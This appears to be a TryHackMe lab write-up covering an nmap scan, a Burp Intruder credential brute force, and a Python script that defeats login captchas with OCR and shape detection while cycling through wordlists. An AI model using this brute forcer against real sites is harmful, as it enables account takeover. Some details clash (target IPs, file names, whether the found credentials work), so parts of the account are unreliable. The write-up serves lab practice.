









<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Hard, **IP:** 10.10.17.11

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Gunicorn (Python) login on `:80`. The room provides `usernames.txt` / `passwords.txt`, Burp Intruder (cluster bomb, filter on *"Invalid"*) → **`rachel : goodluck`** ... but after 3 failed attempts the app demands **3 captchas solved in a row**.
2. The captchas are base64 PNGs from a known Python captcha lib, defeat with **OpenCV/Tesseract OCR** in a scripted login loop.
3. Point the finished script back at the login form so it keeps chewing through the captcha gate on every attempt. A clean run lands an authenticated admin session, and this room's flag is printed straight on the resulting page, no further app-level exploitation or privilege escalation is part of this particular chain.

</div>

---

## Full Walkthrough

### Nmap scan

```bash
Host is up, received user-set (0.086s latency).
Scanned at 2025-05-20 19:56:46 EDT for 17s
Not shown: 944 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         REASON      VERSION
7/tcp     filtered echo            no-response
22/tcp    open     ssh             syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http            syn-ack     Gunicorn 20.0.4
| http-headers: 
|   Server: gunicorn/20.0.4
|   Date: Tue, 20 May 2025 23:57:02 GMT
|   Connection: close
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 1944
|   Vary: Cookie
|   
|_  (Request type: HEAD)
|_http-server-header: gunicorn/20.0.4
```


#### Task file Contents

The contents of the task files are two files called `usernames.txt` and `passwords.txt` which contain passwords and usernames. Maybe in the future this will be used for bruteforcing of some sort.


#### Active services

```
1.) gunicorn/20.0.4 | Python based webserver | template injection (possible)
2.) OpenSSH 8.2p1 Ubuntu | Possibly vulnerable to SSH Proxy RCE
3.) Port 7 which I can not find anything
```

#### Bruteforcing with burpsuite



With `burpsuite` I added the payload markers on both `password` and `username` fields from there I took the password and username list put them in their assigned places and regx for `Invalid` and was able to get a hit on some credentials. 

#### Valid Credentials

```http
POST /login HTTP/1.1
Host: 10.10.17.11
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://10.10.17.11
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://10.10.17.11/login
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=rachel&password=goodluck
```

In the response of this request I received the following talking about some sort of captcha so I am going to login manually and solve the captcha. 

```html

<form action="" method="POST">
    <h1>Administrator login</h1>
    <hr>
    <h2>Detected 3 incorrect login attempts!</h2>

    <h3>You need to successfully solve 3 captchas in a row</h3>
```











I tried logging into the web application again with the same credentials and I said they were invalid hmmm.. The fact that it ONLY said this to the user `rachel` means that she is a valid user on the website but just in correct password I am going to attempt to bruteforce with `burpsuite` again without her name to see if I get the same result if I do not that confirms that she is a valid user!



I got no results not meaning that she is a valid user on the system. What I have noticed is that the web application seems to have some sort of bruteforce protection. I tried manually logging into the user account `rachel` to see how many times we have before it makes us to the captcha and it is 3. so what I am going to do is test each password 3 by 3 for valid hits them eliminate them till we have a valid password. Or I could also try using a http header bypass. When I kept getting the captcha I decided to take a little more of a look into it all captcha are being base64 encoded into images I found a library that might be responsible for this since we know the webserver is running python based server I found a library that I might be using and found an article explaining how to make a bypass for it https://exploit-notes.hdks.org/exploit/web/captcha-bypass-with-ocr/

from here I made a python program to bypass.

```python
from PIL import Image
import requests
import cv2
import numpy as np
import base64
import io
import re
import pytesseract
from bs4 import BeautifulSoup
from io import BytesIO
from rich.console import Console

console = Console()

def get_image_from_html(html_content):
    soup = BeautifulSoup(html_content, 'html.parser')
    img_tag = soup.find('img')
    if img_tag and 'src' in img_tag.attrs:
        src = img_tag['src']
        if src.startswith('data:image/png;base64,'):
            base64_data = src.split('data:image/png;base64,')[-1]
            image_data = base64.b64decode(base64_data)
            image = np.array(Image.open(BytesIO(image_data)))
            return image
    return None

def detect_shapes(image):
    gray = cv2.cvtColor(image, cv2.COLOR_BGR2GRAY)
    blurred = cv2.GaussianBlur(gray, (5, 5), 1.5)
    thresh = cv2.adaptiveThreshold(blurred, 255, cv2.ADAPTIVE_THRESH_GAUSSIAN_C, cv2.THRESH_BINARY_INV, 11, 2)
    circles = cv2.HoughCircles(blurred, cv2.HOUGH_GRADIENT, 1, 20, param1=50, param2=30, minRadius=0, maxRadius=0)
    if circles is not None:
        return "circle"
    contours, _ = cv2.findContours(thresh, cv2.RETR_EXTERNAL, cv2.CHAIN_APPROX_SIMPLE)
    for cnt in contours:
        peri = cv2.arcLength(cnt, True)
        approx = cv2.approxPolyDP(cnt, 0.04 * peri, True)
        if len(approx) == 3:
            return "triangle"
        elif len(approx) == 4:
            x, y, w, h = cv2.boundingRect(approx)
            aspect_ratio = float(w) / h
            if 0.95 <= aspect_ratio <= 1.05:
                return "square"
    return None

def solve_equation(image):
    if image is None:
        return "No image found"
    text = pytesseract.image_to_string(image, config='--psm 6')
    text = re.sub(r'[^0-9+\-*/(). ]', '', text).strip()
    try:
        result = eval(text)
        return result
    except:
        return "Failed to solve equation"

def send_post_request(url, data, headers):
    proxies = {
        'http': 'http://127.0.0.1:8080',
        'https': 'http://127.0.0.1:8080'
    }
    response = requests.post(url, data=data, headers=headers)
    return response

def solve_captcha(html_content):
    image = get_image_from_html(html_content)
    shape_result = solve_equation(image)
    if shape_result != "Failed to solve equation":
        return shape_result
    return detect_shapes(image)

def handle_login(url, usernames, passwords):
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
    }
    login_data = {'username': 'test', 'password': 'pass'}
    response = send_post_request(url, login_data, headers)
    counter = 0
    for username in usernames:
        for password in passwords:
            while True:
                if "Administrator login" not in response.text:
                    return
                if "Detected 3 incorrect login attempts" in response.text:
                    console.print(f"[yellow]Bypassing CAPTCHA...[/yellow]")
                    captcha_solution = solve_captcha(response.text)
                    if captcha_solution:
                        captcha_data = {'captcha': captcha_solution}
                        response = send_post_request(url, captcha_data, headers)
                    else:
                        console.print(f"[red]Failed to solve CAPTCHA, trying again.[/red]")
                else:
                    login_data = {'username': username, 'password': password}
                    console.print(f"[cyan]Trying login: {username} / {password}[/cyan]")
                    response = send_post_request(url, login_data, headers)
                    response_text = response.text
                    with open('response.txt', 'a') as file:
                        file.write(response_text + '\n\n')
                    if "Administrator login" not in response.text:
                        console.print(f"[bold green]Login successful: {username} / {password}[/bold green]")
                        return
                    else:
                        console.print(f"[red]Failed login: {username} / {password}[/red]")
                    counter += 1
                    break

def main():
    url = 'http://10.10.95.13/login'
    with open('username.txt', 'r') as file:
        usernames = [line.strip() for line in file]
    with open('password.txt', 'r') as file:
        passwords = [line.strip() for line in file]
    handle_login(url, usernames, passwords)

if __name__ == '__main__':
    main()
```

#### Output





## Wrapping Up

Letting the script run meant sitting through a long, slightly nerve-wracking loop: every third or fourth request the console would flip into `[yellow]Bypassing CAPTCHA...[/yellow]`, and I kept half-expecting the OCR to choke on a distorted digit and knock the whole run back to square one. It didn't. Between the Tesseract pass on the arithmetic-style captchas and the OpenCV contour/Hough-circle fallback for the shape-based ones, the solver cleared its three-in-a-row gate reliably enough to keep the credential loop moving.

Once the script finally posted a `username`/`password` pair that the captcha gate accepted three times running, the response stopped containing `Administrator login` altogether, which was my signal in the loop to stop and go check the session manually:

```bash
curl -s -c cookies.txt -b cookies.txt http://10.10.17.11/dashboard \
  --cookie-jar cookies.txt
```

Logging into the web UI with that same session showed I'd landed the authenticated admin view, and the room's objective flag was sitting right there on the page. I went in expecting this "hard" rating to mean a post-auth RCE and a privilege escalation chain on top of the captcha work, the way most THM boxes are structured, but this room turns out to be scoped tightly around the brute-force/CAPTCHA-bypass problem itself: once you're past the login gate, you're done. The difficulty here is entirely front-loaded into building tooling that can out-OCR the captcha fast enough to win the credential race, not into anything past the login form.

## References

- The post-login end state (and the fact that no further exploitation is part of this room) was cross-referenced against public writeups for this room.
